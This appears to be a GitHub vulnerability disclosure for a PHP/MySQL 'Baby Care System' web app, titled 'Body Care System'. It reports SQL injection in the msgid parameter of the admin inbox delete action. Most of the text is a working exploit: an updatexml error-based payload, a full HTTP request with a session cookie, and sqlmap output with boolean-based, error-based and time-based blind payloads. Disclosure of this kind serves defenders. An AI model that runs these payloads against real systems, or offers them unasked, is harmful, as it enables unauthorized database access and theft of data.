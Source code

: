 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/inbox.php&action=delete&msgid=

![image](https://user-images.githubusercontent.com/54017627/161355051-d632b485-255d-4c09-b000-44f36b582768.png)

Vulnerability location: /BabyCare/admin.php?id=inbox&action=delete&msgid=11 //msgid is Injection point

[+]Payload:  /BabyCare/admin.php?id=inbox&action=delete&msgid=11%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //msgid is Injection point

```sql
GET /BabyCare/admin.php?id=inbox&action=delete&msgid=11%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161354945-37f592d9-b9dc-4581-85a1-6e95ed44f521.png)

```sql
---
Parameter: msgid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=inbox&action=delete&msgid=11' RLIKE (SELECT (CASE WHEN (7743=7743) THEN 11 ELSE 0x28 END))-- sevP

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=inbox&action=delete&msgid=11' AND EXTRACTVALUE(4012,CONCAT(0x5c,0x7178787171,(SELECT (ELT(4012=4012,1))),0x7176787171))-- onZM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=inbox&action=delete&msgid=11' AND (SELECT 7504 FROM (SELECT(SLEEP(5)))TPJa)-- gsFn
---
```

![image](https://user-images.githubusercontent.com/54017627/161355028-8b85f504-b1fe-4fad-8382-790d3e86ef98.png)
